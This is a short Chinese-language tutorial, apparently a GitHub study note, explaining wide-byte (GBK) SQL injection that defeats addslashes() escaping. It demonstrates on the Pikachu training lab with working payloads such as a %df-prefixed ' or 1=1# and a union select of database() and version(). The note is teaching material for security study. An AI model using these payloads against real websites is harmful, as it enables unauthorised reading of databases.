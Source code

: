 ### 1、宽字节注入的条件：
```yaml
1、GBK编码的数据库
2、addslashes()函数中，使用"\"对字符进行转译
```
```yaml
举例:
kobe%df' or 1=1# 通过addslashes()函数转译以后，变成了kobe%df\' or 1=1#
```
### 2、原理：
```yaml
字符型的注入点我们都是用单引号来判断的，但是当遇到addslashes()时，单引号会被转义,导致我们用来判断注入点的单引号失效
```
### 3、先使用pikachu中的宽字节注入，做个示范
![image](https://github.com/498946975/Security/blob/master/images/kuan_sql_1.png)
```sql
kobe%df' or 1=1 #
```
![image](https://github.com/498946975/Security/blob/master/images/kuan_sql_2.png)
### 4、转译之后，再进行GBK编码
```yaml
kobe%df\' or 1=1# 再进行GBK编码后，变成 kobe%df%5c%27 or 1=1#
```
#### %df%5c 相当于中国字 "運"

### 5、最后的语句变成了
```sql
kobe運' or 1=1#
```
### 6、掌握如上技巧后，再进行注入
```sql
%df' union select database(), version() #
```
![image](https://github.com/498946975/Security/blob/master/images/kuan_sql_3.png)